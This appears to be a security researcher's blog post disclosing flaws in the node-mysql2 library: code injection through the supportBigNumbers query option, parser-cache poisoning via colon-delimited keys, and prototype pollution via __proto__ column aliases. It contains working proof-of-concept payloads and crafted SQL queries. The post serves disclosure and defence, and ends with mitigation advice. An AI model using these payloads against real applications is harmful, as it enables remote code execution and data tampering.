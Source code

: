 +++
title = 'MySQL2: Dangers of User-Defined Database Connections'
date = 2024-03-26T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
The node-mysql2 library is one of the most popular libraries for connecting to a database in JavaScript, with over 2 million installations per week.

At the end of last year, I encountered an automation system that utilized the node-mysql2 library to connect to user databases and execute queries controlled by them.
In this article, I want to discuss the issues it causes and provide you with their solutions.

# Basics
In the application I was researching, the user could establish a connection to their database and execute queries with it:

```
// Simplified example
const mysql = require('mysql2');
...
const connection = mysql.createConnection({
    host: userdata.host,
    user: userdata.user,
    database: userdata.db,
    password: userdata.password,
});
...
connection.query(userdata.query,reponseFunction)
);
```

Obviously, in this case, we cannot talk about standard SQL-related attack vectors since the connection belongs to us. Therefore, we should consider issues related to affecting other users data or server performance.

# RCE
As you might guess, I was able to find a way to execute arbitary code in such a configuration, but how is this possible?

First, let's understand how the library works. In most cases, the first argument passed to the connection.query function is a string containing the query:
```
connection.query("SELECT 1;",reponseFunction)
```

But actually, the first argument can also be an object, where in addition to the query itself, we can pass parameters for its processing:
```
connection.query({sql:"SELECT 1;", ... },reponseFunction)
```

After that, the passed configuration parameters will be used by the response parsing [function](https://github.com/sidorares/node-mysql2/blob/1609b5393516d72a4ae47196837317fbe75e0c13/lib/parsers/text_parser.js#L14C10-L14C21).
(It's also worth noting that these same parameters can be passed directly into the database connection, which can be useful if the query argument is filtered.)

If you look closely, you will notice that this function involves code generation. MySQL2 generates a parsing function for each query, which is then cached for optimization purposes. This is important for understanding this article.

I noticed that in most cases, it successfully sanitizes the data that enters the generated code. However, there is also a line:
```
      return `packet.parseLengthCodedInt(${supportBigNumbers})`;
```

The parameter supportBigNumbers is a number in a legitimate case, so it is not sanitized. However, are there any checks for this?

A quick look at the code revealed that such checks are absent. This piece of code will be executed if the executed query returns a BIGNUMBER, so to achieve RCE, it is sufficient to pass the following object as the first argument:
```
 {sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"}
```

As a result, you will see 1337 in the console after executing this database query.

**!!! It's also important to understand that an object with a global prototype is used as a map. Therefore, you can use this as Prototype Pollution to achieve RCE. If the targeted application uses mysql2 and you achieve PP, you can also gain RCE.**

# Cache Poisoning
The next vulnerability becomes accessible even in stricter application configurations. Its exploitation is possible even if the first argument query is checked to ensure it is a string.
As I mentioned earlier, the library utilizes caching of generated response functions. Let's take a look at how it was [implemented](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/parser_cache.js#L9):
```
function keyFromFields(type, fields, options, config) {
  let res =
    `${type}` +
    `/${typeof options.nestTables}` +
    `/${options.nestTables}` +
    `/${options.rowsAsArray}` +
    `/${options.supportBigNumbers || config.supportBigNumbers}` +
    `/${options.bigNumberStrings || config.bigNumberStrings}` +
    `/${typeof options.typeCast}` +
    `/${options.timezone || config.timezone}` +
    `/${options.decimalNumbers}` +
    `/${options.dateStrings}`;
  for (let i = 0; i < fields.length; ++i) {
    const field = fields[i];
    res += `/${field.name}:${field.columnType}:${field.length}:${field.schema}:${field.table}:${field.flags}:${field.characterSet}`;
  }
  return res;
}
```

As you can see, keys are inserted into the string, and ":" is used as a delimiter. This is a poor implementation because the values passed into the key can also contain ":". By exploiting this characteristic, one can manipulate the hashed function:
```
  connection.query(
    'SELECT information_schema.tables.TABLE_NAME,`tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS FROM information_schema.tables INNER JOIN information_schema.tables AS `tables:160:63/DATA_LENGTH:8:undefined::tables` ON `tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS!=information_schema.tables.TABLE_ROWS LIMIT 1;',
    function(err, results, fields) {
    }
  );
  // Send another request and spwan new connection
  connection1.query(
    `SELECT TABLE_NAME, TABLE_ROWS, DATA_LENGTH FROM information_schema.tables LIMIT 1;`,
    function(err, results, fields) {
      console.log(results);
      console.log(fields);
    }
  );
```
You will see output:
```
[ { TABLE_NAME: 'ADMINISTRABLE_ROLE_AUTHORIZATIONS', TABLE_ROWS: 0 } ]
[
  `TABLE_NAME` VARCHAR(64) NOT NULL,
  `TABLE_ROWS` BIGINT(21) UNSIGNED,
  `DATA_LENGTH` BIGINT(21) UNSIGNED
]
```

As evident, the fields of the second request include DATA_LENGTH, which, however, is absent in the results. This discrepancy arises because the first request stores in the cache a key `text/undefined/undefined/false/false/false/boolean/local/false/false/TABLE_NAME:253:undefined:information_schema:tables:20609:224/TABLE_ROWS:8:undefined::tables:160:63/DATA_LENGTH:8:undefined::tables:160:63` with an incorrect packet parser.

This can be used to disrupt the logic of the application, sending data types that are not expected.

Fixed in latest release.

# Prototype Poisoning / Pollution
Returning to the process of generating the function that parses the returned response, it can be observed that an object with a global prototype is used as the user-supplied [value](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/text_parser.js#L134):
```
parserFn("const result = {};");
```

Therefore, if you pass the following query:

```
SELECT CAST('{"toString": {"toString":true}, "tags": {"a": 1, "b": null}}' as JSON) AS __proto__;
```

You will notice that the response prototype has changed
```
Object.getPrototypeOf(results[0])
> { tags: { a: 1, b: null }, toString: { toString: true } }
```
his only controls a specific prototype, not the global one. However, if we have the ability to control the configuration, we can simply pass `nestTables: true`:
```
    } else if (options.nestTables === true) {
        lvalue = `result[${helpers.srcEscape(fields[i].table)}][${fieldName}]`;
    }
```
As many might understand, this will give us full prototype pollution.

# Conclusion 
I informed the vendor about these issues 90 days ago and my intentions to publish this material on March 26th. Unfortunately, the vendor did not provide the necessary cooperation, ignoring my emails for months, so this material was released without the final fixes.

Today, a [fix](https://github.com/sidorares/node-mysql2/releases/tag/v3.9.3) was released that addresses the cache manipulation issue. However, the remaining problems remain relevant in the latest version.

If you are using the library in the described scenarios, I strongly advise you to limit the connection parameters and the parameters passed in the query.